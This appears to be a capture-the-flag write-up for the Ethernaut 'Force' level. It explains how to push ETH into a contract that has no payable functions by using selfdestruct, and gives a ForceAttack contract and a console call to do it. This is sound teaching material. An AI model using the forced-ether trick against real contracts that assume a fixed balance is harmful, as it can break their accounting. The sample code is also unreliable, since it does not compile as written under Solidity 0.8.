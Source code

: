 # **Level 7 -- Force**
## **Contract to hack**
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

---
## ***Objectives***
* Make the balance of the contract greater than zero.
---
## ***Thought Process***
If you want a contract to be able to receive ETH, you need to add a `receive()` or `fallback()` function to the contract with a `payable` keyword. However since there are no functions in this contract, we can not send ETH to the contract directly.

Nevertheless, there is a special way to send ETH to any contract which is called `selfdestruct`. This function allows us to destroy a contract and send the balance of the contract to an address or another contract. Therefore, we need to create a contract with `selfdestruct` function and make sure the contract's balance is greater than zero. After that we call the `selfdestruct` function and send the ETH to the `Force` contract.

---
## ***Solution***
``` solidity
pragma solidity ^0.8.0;

contract ForceAttack {
    address levelInstance;
    
    constructor() public {}

    receive() payable{}

    function destroy(address to) external payable{
        selfdestruct(payable(to));

    }

}
```
1. send ETH to the contract

2. call `destroy` function
``` ts
> await contract.destroy(ForceAddress);
```



